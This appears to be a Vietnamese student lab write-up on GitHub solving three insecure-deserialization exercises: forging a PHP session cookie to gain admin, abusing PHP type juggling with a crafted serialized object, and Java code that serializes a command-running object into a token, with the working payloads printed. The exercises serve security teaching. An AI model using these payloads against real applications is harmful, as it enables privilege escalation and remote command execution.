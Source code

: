 ![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/19fec480-47d3-4685-aa61-391de0a180e0)# ltat_lab2
## Bài 7:

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/2447700a-d407-49d1-b9a2-9b7746d2b5ad)

- Mục tiêu của bài này là xóa được user ```carlos``` .
- Trước hết mình phải login bằng user và pass được cho trước.
- Sau một hồi scan thì mình tìm được đường dẫn ```/admin``` .

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/dd419f75-29bf-43d1-b51a-9f758e2dc25d)

- Có vẻ mình không thể vào được với người dùng bình thường.
- Check sơ qua cookie thì mình thấy một cookie có giá trị là ```session``` .
- Mình sẽ thử bật burpsuite lên để test thử.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/d502bf30-8304-40cb-86d9-9f0b932b65a2)

- Khi gửi req đến ```/admin``` server sẽ kiểm tra biến session của chúng ta, khi mình decode thử thì ra được một đối tượng là user.
- Điểm đáng chú ý ở đây là giá trị admin của session này đang là 0 ( do biến bool quyết định )
- Giờ mình chỉ cần chuyển nó về thành 1 và gửi req thì có thể bypass phần này.

  ![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/932acce0-7e60-4306-9eda-9602885769af)

- Giờ thì khi xóa user ```carlos``` chúng ta cũng sẽ làm tương tự.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/6018c782-e03a-4a65-a71e-21dd2e4ef85c)

```session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3d```

## Bài 8:

- Bài này lúc đầu vào cũng giống bài trước nên mình sẽ vào thẳng phần session.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/1eb9bc4f-1399-4c68-816c-81066b427d44)

```O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"f4fb8seskjly3qw37onpt6ujkprn1co7";}```

- Ở đây chúng ta có vài trường mới trong class User này đó là ```username``` và ```access_token```.
- Theo mình hiểu thì ```access_token``` là một trường dùng để kiểm tra xem class có bị sửa đổi gì hay không và nếu nó sai thì sẽ không cho ta truy cập.
- Còn về phần username thì ở đây bắt buộc phải là ```administrator``` .
- Mình đọc hint thì có vẻ bài này được viết trên PHP, và mình nghỉ ngay đến một lỗi trong quá trình so sánh kiểu dữ liệu của PHP đó là php type juggling.
- Từ những dữ kiện trên, mình đã đã tạo được một class mới với giá trị như sau.

```O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}```
- Với Class này, mình đã đổi tên của user và đồng thời ép kiểu dữ liệu của access_token là int với giá trị là 0. Điều này làm cho biến access_token sẽ bị lỗi và trả về giá trị đúng.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/e353703a-36f7-4295-9906-9aace41bb32e)

- Vậy là mình đã bypass qua phần admin, bây giờ chỉ cần xóa User là solve được bài này.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/e1018c97-39d1-4d8e-bfd8-5ff91227087a)

```session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9```

## Bài 9:

- Đây là một chall về JAVA, đề cho chúng ta một đoạn code có sẵn:

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/8cac9e82-ac3f-426c-968b-4eacca3f44c3)

- Ở đây chúng ta có một đoạn code đáng chú ý.
 
![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/915099c0-b60c-4223-b273-08b355905cd7)

- Class VulnerableTaskHolder sẽ truyền mọi taskAction mà ta truyền vào nó, điều này có nghĩa là chúng ta có thể tận dụng điểm này để truyền một câu lệnh nào đó vào đây.
- Mình sẽ viết một đoạn code để có thể tạo một token thực hiện lệnh ```ping``` .

```java

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;
import org.dummy.insecure.framework.VulnerableTaskHolder;


public class Program {
    public static void main(String args[]) throws Exception{
        VulnerableTaskHolder vulnObj = new VulnerableTaskHolder("ping","ping -n 4 127.0.0.1");
		
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(vulnObj);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(bos.toByteArray()));
    }
}
```

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/91fc6455-a23f-45b7-994d-1fd50eb1d1a4)

-Đây là Token:
```rO0ABXNyADFvcmcuZHVtbXkuaW5zZWN1cmUuZnJhbWV3b3JrLlZ1bG5lcmFibGVUYXNrSG9sZGVyAAAAAAAAAAICAANMABZyZXF1ZXN0ZWRFeGVjdXRpb25UaW1ldAAZTGphdmEvdGltZS9Mb2NhbERhdGVUaW1lO0wACnRhc2tBY3Rpb250ABJMamF2YS9sYW5nL1N0cmluZztMAAh0YXNrTmFtZXEAfgACeHBzcgANamF2YS50aW1lLlNlcpVdhLobIkiyDAAAeHB3DgUAAAfnChQWOB41NIOieHQAE3BpbmcgLW4gNCAxMjcuMC4wLjF0AARwaW5n```


![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/90a8fa86-b5d6-475a-ae55-8fe69856b9a0)

